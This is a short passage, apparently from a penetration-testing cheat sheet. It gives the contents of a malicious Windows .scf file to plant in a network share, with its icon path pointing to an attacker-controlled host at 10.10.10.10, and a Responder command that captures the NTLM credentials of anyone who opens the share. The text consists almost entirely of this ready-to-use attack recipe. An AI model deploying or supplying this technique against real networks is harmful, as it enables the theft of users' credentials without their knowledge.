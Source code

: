 - - -
Drop the following `@something.scf` file inside a share 

```scf
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Start listening with Responder : 

```python
responder -wrf --lm -v -I eth0
```

